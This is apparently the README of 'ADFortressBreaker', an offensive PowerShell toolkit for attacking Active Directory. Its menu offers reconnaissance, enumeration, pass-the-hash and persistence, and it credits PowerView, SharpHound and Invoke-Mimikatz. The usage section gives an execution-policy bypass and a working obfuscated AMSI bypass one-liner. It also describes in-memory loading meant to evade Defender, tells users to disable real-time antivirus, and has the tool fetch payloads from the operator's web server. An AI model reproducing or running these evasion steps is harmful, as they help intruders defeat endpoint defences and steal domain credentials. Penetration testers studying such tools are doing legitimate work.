 <h1 align=center> ADFortressBreaker </h1>

![Default_fortress_breaker_logo_microsoft_windows_cybersecurity_1_b2db1a2f-aaee-41f3-85a0-d73527e5ce6e_0](https://github.com/m4rkh4ck/ADFortressBreaker/assets/92309458/08f54524-3a96-41a0-b294-da0514c611fd)

<h1 align=center><br><img src= https://img.shields.io/badge/Language-Powershell-blue> <img src= https://img.shields.io/badge/Version-v1.0-green> <a href= "https://www.linkedin.com/in/%F0%9F%92%BE-diego-marcaccio-06431970/"><img src= https://img.shields.io/badge/Follow-m4rkh4ck-black> <a href= "https://www.linkedin.com/in/antonio-migliuolo-723598207/"><img src= https://img.shields.io/badge/Follow-synackid-white></h1>

## About ADFortressBreaker
The script has been written to help Ethical Hackers to execute the most common command in a Penetration Test in an Active Directory environment without write any line of code.
It's designed to leave as few traces as possible, so all the module will be loaded directly in memory to avoid defender interception. Remember that all the modules inside the Modules folder will activate your antivirus, so before use it you have to disable real time monitoring or give an exclusion to the path where you will use it.

## Usage
Before launching AdFortressBreaker it is necessary to bypass powershell execution policy:
```
powershell -ep bypass
```
Then you have to bypass the AMSI control:
```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

Import the module:
```
. .\ADFortressBreaker.ps1
```

Execute:
```
Invoke-ADFortressBreaker
```

After that the user have to start a web server on port 8000 on his machine.



```
           _____  ______         _                     ____                 _
     /\   |  __ \|  ____|       | |                   |  _ \               | |
    /  \  | |  | | |__ ___  _ __| |_ _ __ ___  ___ ___| |_) |_ __ ___  __ _| | _____ _ __
   / /\ \ | |  | |  __/ _ \| '__| __| '__/ _ \/ __/ __|  _ <| '__/ _ \/ _ | |/ / _ \ '__|
  / ____ \| |__| | | | (_) | |  | |_| | |  __/\__ \__ \ |_) | | |  __/ (_| |   <  __/ |
 /_/    \_\_____/|_|  \___/|_|   \__|_|  \___||___/___/____/|_|  \___|\__,_|_|\_\___|_|


1) Reconnaissance
2) Enumeration
3) PassTheHash
4) Persistence
5) Exit


[*] Start a web server on your machine (exposed on port 8000) to download the .ps1 file

[*} Example: python3 -m http.server

[*] Set the web server ip address :

```

In the main menu the user can choose the activity to do by typing the corresponding number and pressing enter.

## Credits
To implement ADFortressBreaker we used the following tools: <br>
- <a href= "https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1">Powerview.ps1</a> <br>
- <a href= "https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1">PowerUp.ps1</a> <br>
- <a href= "https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1">SharpHound.ps1</a><br> 
- <a href= "https://github.com/HarmJ0y/ASREPRoast/blob/master/ASREPRoast.ps1">ASREPRoast.ps1</a><br>
- <a href= "https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1">Invoke-Mimikatz.ps1</a><br> 
